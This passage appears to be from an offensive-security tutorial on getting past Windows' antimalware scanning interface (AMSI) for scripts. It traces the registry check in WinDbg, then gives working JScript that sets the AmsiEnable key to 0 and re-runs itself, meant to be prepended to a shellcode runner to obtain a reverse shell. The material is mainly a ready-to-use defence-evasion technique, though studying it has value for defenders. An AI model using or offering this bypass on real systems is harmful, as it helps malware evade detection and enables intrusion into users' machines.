

## Finding The Registry Key
We'll open WinDbg and navigate to  _File_ -> _Open Executable..._ and enter the full path of wscript.exe along with the full path of our testing Jscript file.
With wscript.exe started, we'll set a breakpoint on _jscript!JAmsi::JAmsiIsEnabledByRegistry_ with bu.

Entering the breakpoint and unassembling the function we note the following:



The highlighted call to the Win32 _RegOpenKeyExW_ API opens the registry key, which is supplied as the second argument.
Due to the fastcall calling convention, the second argument is supplied in RDX and in this instance is equal to 7fff\`a3b134e0.

This reveals the _SOFTWARE\\Microsoft\\Windows Script\\Settings_ registry path.
A subsequent call to _RegQueryValueExW_ is used to query the registry value. i.e. AmsiEnable.

## The Bypass
To create the bypass we will use the following jscript:
```Javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

Running this disables amsi and gives us our reverse shell, however, it only works if the AmsiEnable registry key is set before the wscript.exe process is started.

To improve our script, we will implement a check for the AmsiEnable registry key. If it exists, we'll execute the shellcode runner, but if it doesn't, we'll create it and execute the Jscript again.
The full code will be as follows:
```Javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
```

We prepend this code to our shellcode runner to bypass amsi and get the reverse shell.

